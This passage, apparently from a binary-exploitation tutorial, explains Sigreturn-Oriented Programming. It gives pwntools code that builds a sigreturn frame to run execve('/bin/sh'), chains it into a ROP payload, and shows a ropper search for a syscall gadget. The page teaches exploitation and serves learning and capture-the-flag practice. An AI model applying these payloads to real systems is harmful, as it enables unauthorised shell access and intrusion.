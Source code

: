 ### PwnTools

Of course, [pwntools.md](../pwntools.md "mention") already has a class that can generate these frames for us, so we don't have to remember the whole layout. On it, we can simply set registers as attributes and unfilled registers will default to 0:

```renpy
frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve()
frame.rdi = BINSH           # pointer to "/bin/sh"
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL         # `syscall` gadget
print(bytes(frame))  # b'\x00\x00\x00\x00\x00\x00\x00\x00...' (248 bytes)
```

When the `rt_sigreturn` syscall is called, these bytes on the top of the stack will represent the sigreturn frame. So in a simple ROP chain where you control the `rax` register to choose the syscall you want to perform, simply set it to 15 ([source](https://x64.syscall.sh/)) and jump to a `syscall` instruction gadget.&#x20;

```renpy
rop = ROP(elf)
rop.rt_sigreturn()  # Let PwnTools find it, otherwise set rax=15 and `syscall`
rop.raw(frame)  # Add sigreturn frame to set registers

payload = flat({
    OFFSET: rop.chain()
})
```

## Exploitation

This will cover a generic scenario, where there aren't many gadgets available for a ROP chain, so it can be applied in multiple situations of SROP. This will assume&#x20;

### Calling `sigreturn`

The first thing required for SROP is of course being able to perform its syscall. This is done in two steps:

1. Set the `rax` register to 15 (`0xf`)
2. Jump to `syscall`

There are many ways to set `rax=15`, the easiest being a `pop rax; ret` gadget where we simply provide the value 15 on the stack in our input. See [#getting-values-into-registers](./#getting-values-into-registers "mention") for more complex ideas.&#x20;

After that is set, you just need to jump to a `syscall`. This gadget does not even need a `ret` instruction afterward, because we keep controlling the RIP anyways due to setting all the registers with sigreturn. You can easily find such a gadget with ropper or ROPgadget:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ ropper -f ./binary --search "syscall"
</strong>0x0000000000401014: syscall; 
0x0000000000401014: syscall; ret;
